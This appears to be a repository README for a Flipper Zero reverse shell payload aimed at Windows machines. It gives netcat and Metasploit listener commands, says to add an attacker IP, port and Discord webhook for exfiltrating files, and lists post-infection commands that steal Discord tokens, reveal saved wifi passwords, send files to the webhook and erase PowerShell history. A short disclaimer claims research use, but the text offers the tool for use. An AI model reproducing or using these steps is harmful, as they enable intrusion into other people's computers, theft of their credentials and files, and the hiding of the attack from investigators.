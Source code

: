 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt
   - use a url shortener for fast execution. 

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
• Additional commands after infection
  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt
  /wifi
  - shows saved wifi passwords
  /discord <filename>
  - send the file to your discord webhook
  /clean
  - removes powershell history
